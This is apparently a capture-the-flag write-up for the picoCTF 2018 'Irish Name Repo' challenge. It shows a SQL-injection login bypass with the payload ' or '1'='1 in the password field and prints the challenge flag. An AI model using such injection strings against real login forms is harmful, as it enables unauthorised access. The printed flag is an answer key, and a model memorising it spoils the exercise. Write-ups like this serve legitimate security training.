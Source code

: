 > Irish Name Repo - Points: 200 - (Solves: 414)
> There is a website running at http://2018shell1.picoctf.com:59464 (link). Do you think you can log us in? Try to see if you can login!

We use the sidebar to navigate to the login page.

Entering "'" in the username and attempting to login breaks the server request.

Therefore we can assume this is a SQL-injection challenge.

Putting in the details as follows returns the flag:
```
username: admin
password: ' or '1'='1
```

Text returned:
```
Logged in!
Your flag is: picoCTF{con4n_r3411y_1snt_1r1sh_d121ca0b}
```

Flag: `picoCTF{con4n_r3411y_1snt_1r1sh_d121ca0b}`
